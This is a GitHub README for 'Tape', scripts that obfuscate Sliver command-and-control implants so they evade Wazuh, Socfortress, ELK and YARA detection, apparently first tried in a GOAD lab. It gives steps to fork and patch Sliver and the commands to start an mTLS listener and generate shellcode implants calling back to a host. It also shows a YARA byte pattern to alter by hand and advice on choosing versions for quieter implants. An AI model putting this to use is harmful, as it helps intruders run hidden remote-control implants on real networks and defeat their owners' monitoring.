 # Tape
Scotch-Tape usage for [Sliver](https://github.com/BishopFox/sliver) obfsucation  
This technique looks a bit like this ...
<p align="center">
  <img src="./image/jim-carrey-tape.gif" alt="jimmy-jim width="290" height="290" />
</p>  


## In Labs - GOAD with Wazuh Activated    
1. Yes, I know that just tweaking some settings in Havoc allows the demon.bin to be executed on GOAD (on Socfortress rules machines) without issues. But in this case, my goal was to achieve the same thing manually with [Sliver](https://github.com/BishopFox/sliver), which allowed me to learn much more about this C2.
And for Havoc, if you didn't know—now you know.    
2. In this case, we will bypass and obfuscate our payload with minimal effort. (If my calculations are correct: Socfortress—out, ELK rules—out, Wazuh YARA rules—out. I’m not considering Defender in my equation because some built-in bypasses in the implant can still be flagged, even in this case.)  

## Taping.sh
1. Fork [Sliver](https://github.com/BishopFox/sliver) to your own repository.  
2. Clone the repo on your server.  
3. Place this [Tape](https://github.com/Oni-kuki/Tape) repo in front of your forked [Sliver](https://github.com/BishopFox/sliver) repo (on your server, of course)
4. Execute [Taping.sh](https://github.com/Oni-kuki/Tape/blob/main/taping.sh)

> [!NOTE]  
> Version 1.5 or 1.6 are reference to [Sliver](https://github.com/BishopFox/sliver) version
> 1.6 is still in development so use it with caution (do not use it in production).  
> I have a better solution if you want to use the latest version because Donut-based payloads in 1.6 are not flagged as much yet.   

```taping.sh
./taping.sh version 1.5 FOLDER/
./taping.sh version 1.6 FOLDER/
```

> [!CAUTION]  
> This takes a while, so be patient  
> I highly recommend reading the script, because it's necessary to make some modification on it, in link with your fork  

## Scotch.py  
This script can be used independently of this repo, (if you have read the [Taping.sh](https://github.com/Oni-kuki/Tape/blob/main/taping.sh) you'll notice some redundancy in the obfuscation techniques.)  

```
python3 scotch.py FILE
```

> [!CAUTION] 
> Depending on your listener, not every obfuscation technique can be applied. By default, the obfuscation is set for an mTLS listener.   
> So again Read the script

```sliver
mtls -L HOST_IP -l port -p
generate -m HOST_IP:PORT -G --skip-symbols -f shellcode -s ./FOLDER/TO/SAVE
```
## Last but not Least  
I don't have automated one particular obfuscation (wireguard strings because it's still a bit tricky)  
You can make it manually with ghidra for the moment, I will automated in a few days.  
the hex to change is based on this rule part :
```
$p1 = {66 81 ?? 77 67}
```
Use the yara rule to identify correctly the Hex part; it's more precise.  

## Some Recomendations
> [!NOTE]
> Build the 1.5 version   
> Next to this build the 1.6 version  
> Add the sliver-server binary of 1.6 to the 1.5 server, like external builder and use it for every implant generation  

### Why did I make this ? 
Because the Donut loader in version 1.6 doesn't allow the execute-assembly method to work correctly.
I tested a lot of things to understand why, and I isolated the fact that the loader cannot retrieve the output. This might be linked to the AMSI patch (the bypasses are applied in two ways: one for Donut itself, (for implant) and the other in the loader for execute-assembly). However, I haven't delved too deeply into the subject yet.  

Regardless, version 1.6 is quieter for the implant, while version 1.5 works better for execute-assembly. In any case, version 1.5 is more stable and production-ready.  
